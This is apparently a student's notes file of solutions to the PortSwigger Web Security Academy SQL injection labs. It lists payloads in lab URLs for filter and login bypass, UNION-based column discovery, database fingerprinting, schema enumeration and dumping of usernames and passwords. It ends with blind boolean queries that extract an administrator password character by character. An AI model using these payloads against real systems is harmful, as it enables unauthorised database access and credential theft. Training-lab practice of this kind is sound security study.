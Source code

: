 # 1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

https://ac691f8f1f1ade0ec09556480096009a.web-security-academy.net/filter?category=Food+&+Drink' or '1'='1


# 2 SQL injection vulnerability allowing login bypass

uname -> administrator
pass -> pass' or '1'='1


# 3 SQL injection UNION attack, determining the number of columns returned by the query

https://ac101f141ffe5241c02925c900cd00fb.web-security-academy.net/filter?category=Corporate+gifts' union select null,null,null--

# 4 SQL injection UNION attack, finding a column containing text

https://acc41f9a1e1d0567c0443b83007e0005.web-security-academy.net/filter?category=Corporate+gifts' union select null,'x3tSLc',null--

# 5 SQL injection UNION attack, retrieving data from other tables

https://acd91f8d1ed49ccdc0f3100900ea0060.web-security-academy.net/filter?category=Accessories' union select username,password from users--

# 6 SQL injection UNION attack, retrieving multiple values in a single column

https://acab1f321e54abdec0327ab800b70008.web-security-academy.net/filter?category=Corporate+gifts' union select null,username || '~' || password FROM users----

# 7 SQL injection attack, querying the database type and version on Oracle

https://ace01f1b1fe49816c0a468ad00de0029.web-security-academy.net/filter?category=Gifts%27+union+select+banner,+NULL+FROM+v$version--

# 8 SQL injection attack, querying the database type and version on MySQL and Microsoft

https://ac181f9e1e461c79c05e5cd700c9009a.web-security-academy.net/filter?category=Tech+gifts' union select @@version,null-- -



# 9 SQL injection attack, listing the database contents on non-Oracle databases

determine database version (PostgreSQL 11.15 (Debian 11.15-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit)

https://ac151f861ff1f580c06e17d600c3003d.web-security-academy.net/filter?category=Gifts' union select version(),null-- -

determine other tables in database

https://ac151f861ff1f580c06e17d600c3003d.web-security-academy.net/filter?category=Gifts' union SELECT table_name,null FROM information_schema.tables-- -

get column names from table

https://ac151f861ff1f580c06e17d600c3003d.web-security-academy.net/filter?category=Gifts' union SELECT column_name,null FROM information_schema.columns where table_name='users_srqfep'-- -

	password_mpzlug

	username_pihapd
	
Get data from table

https://ac151f861ff1f580c06e17d600c3003d.web-security-academy.net/filter?category=Gifts' union SELECT username_pihapd,password_mpzlug FROM users_srqfep-- -

# 10

# 11
finding password lenght

	TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

finding password characters

	TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

check request_11.py